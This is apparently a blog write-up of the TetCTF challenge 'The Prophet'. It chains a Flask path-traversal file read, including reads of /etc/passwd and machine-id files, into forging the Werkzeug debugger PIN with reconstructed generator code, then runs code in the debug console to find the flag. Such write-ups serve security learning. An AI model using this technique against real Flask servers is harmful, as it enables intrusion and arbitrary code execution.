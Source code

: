 {:title "The Prophet - TetCTF"
 :layout :post
 :tags  ["ctf" "writeup" "python" "flask" "ACE"]
 :toc false}

This was a fun one. We start off with a web page and get a foothold with an
arbitrary file read vulnerability, and end it off with a Python Flask Arbitrary
Code Execution in the web debugger.

On the webpage, we are presented with a hyperlink with the text `Read some
oracle here`. Clicking the hyperlink brings us to 5 web pages
`/read/oracle/[1-5].txt`. One of them, `1.txt`, says the following:

> Flag is in random folder at /, but what is it name? Who know 🤷‍♂️ 
> Can you help me? (This is not brute/guess challenge...) !

We try to see if we can get to other files by changing the URL to something
else (try `0.txt`), and we get a Flask debugger error page. In it, we see the
directory the app lives in, `/home/web3_user/app.py`. Let's see what would
happen if we change the URL to that. We set the URL to `/read/app.py`. We get
the following Python code:

```python
from flask import Flask
from flask import render_template
import random

app = Flask(__name__)

@app.route('/')
def index():
	rand = str(random.randint(1, 5))
	return render_template('index.html', random=rand)

@app.route('/read/<path:filename>')
def read(filename=None):
	rand = str(random.randint(1, 5))

	try:
		content = open(filename, 'r').read()
	except:
		raise
	return render_template('file.html', filename=content, random=rand)

if __name__ == '__main__':
	app.run(host='0.0.0.0', port='7004', debug=True)
```

To read files with directory traversal, substitute your `/` with the URL
encoded equivalent `%2f`. Reading `/etc/passwd` would just be a get request to
`/read/..%2f..%2fetc%2fpasswd` (remember that we are in `/home/web3_user/`).

As you can see, debug mode is on. This means that whenever an error occurs, an
interactive console can be toggled and let you input code (a.k.a. Flask
debugger page mentioned above). The caveat is that it is secured with a PIN
that is only displayed in the `stdout` when you run the server. This PIN is not
generated randomly every time; rather, it uses a bunch of different
machine-specific pieces of information to generate a PIN. This is the
[function][gen-pin-fn] for generating a PIN. I have taken the liberty to remove
the part that checks the environment for a pin.

```python
def get_pin_and_cookie_name(app):
    """Given an application object this returns a semi-stable 9 digit pin
    code and a random key.  The hope is that this is stable between
    restarts to not make debugging particularly frustrating.  If the pin
    was forcefully disabled this returns `None`.
    Second item in the resulting tuple is the cookie name for remembering.
    """
    rv = None
    num = None

    modname = getattr(app, "__module__", app.__class__.__module__)

    try:
        # getuser imports the pwd module, which does not exist in Google
        # App Engine. It may also raise a KeyError if the UID does not
        # have a username, such as in Docker.
        username = getpass.getuser()
    except (ImportError, KeyError):
        username = None

    mod = sys.modules.get(modname)

    # This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, "__name__", app.__class__.__name__),
        getattr(mod, "__file__", None),
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [str(uuid.getnode()), get_machine_id()]

    h = hashlib.md5()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, text_type):
            bit = bit.encode("utf-8")
        h.update(bit)
    h.update(b"cookiesalt")

    cookie_name = "__wzd" + h.hexdigest()[:20]

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b"pinsalt")
        num = ("%09d" % int(h.hexdigest(), 16))[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    return rv, cookie_name
```

Fix the import errors:

```python
from itertools import chain
import sys
import hashlib
```

You might also notice that the variable `text_type` is not defined anywhere.
Digging a bit deeper in the [source code][text_type-src] gives us `text_type =
str` if we are using Python 3 (which we are).

There is another function that is referenced: `get_machine_id`, which gets the
machine's ID, regardless of operating system. Using the exploit, we can read
the file `/etc/os-release` to see that we are on an Ubuntu system, so we check
the contents of `/etc/machine-id` and replace the function call with the string
`d4e6cb65d59544f3331ea0425dc555a1`.

We now need to know the username, modname, and whatever `uuid.getnode` returns.
The username is simple. We use the exploit to read `/etc/passwd` and see that
we are probably `web3_user`. If you call the function now and print the
`modname`, you see that it just says `flask.app`, so let's assume that it's the
same everywhere. This leaves `uuid.getnode`. We read the
[documentation][uuid-getnode] and see that it gets the hardware address (MAC
address) of the network interface. To do this, we first have to list out all
the current network interfaces by reading the file `/proc/net/dev`. We find the
ethernet interface `ens3` and read the file `/sys/class/net/ens3/address` to
get the hardware address `56:00:02:7a:23:ac`, and convert it into an integer,
and then to a string.

We are actually missing one thing. Within `get_pin_and_cookie_name` there is a
variable `probably_public_bits`. The last item may not be the same as the one
on the server, depending on the system you run python on. If we run the
function right now and print this variable, the last item would be something
similar to `/usr/*/python3.x/*-packages/flask/app.py`. If you would recall,
when we first ran into the error, it output
`/usr/local/lib/python3.5/dist-packages/flask/app.py`. So we simply replace the
call to `getattr` with the previous string, and call the function to get the
PIN. If it isn't obvious already, the parameter you call it with is the
`app.py` code you got earlier.

After getting the PIN, we have access to the Werkzeug debugger/interactive
console, and thus have ACE. We execute the following code to find the flag:

```python
>>> import os
>>> os.listdir('/')
['media', 'tmp', 'lib', 'swapfile', 'srv', 'usr', 'vmlinuz', 'opt',
'initrd.img.old', 'home', 'bin', 'boot', 'etc', 'lost+found', 'initrd.img',
'root', 'mnt', 'vmlinuz.old', 'dev', 'phao_san_pa_lay___1337', 'sys', 'proc',
'run', 'lib64', 'sbin', 'snap', 'var']
>>> os.listdir('/phao_san_pa_lay___1337')
['flagggg.txt']
>>> open('/phao_san_pa_lay___1337/flagggg.txt').read()
"TetCTF{Flask_Debug_LFI___Wuttt__RCE}\n\nPlease don't do any further action" +
"on the server, we knew the setup suck, but it's needed for the vulnerability\n"
```

[gen-pin-fn]: https://github.com/pallets/werkzeug/blob/71cf9902012338f8ee98338fa7bba50572606637/src/werkzeug/debug/__init__.py#L133
[uuid-getnode]: https://docs.python.org/3/library/uuid.html#uuid.getnode
[text_type-src]: https://github.com/pallets/werkzeug/blob/71cf9902012338f8ee98338fa7bba50572606637/src/werkzeug/_compat.py#L129
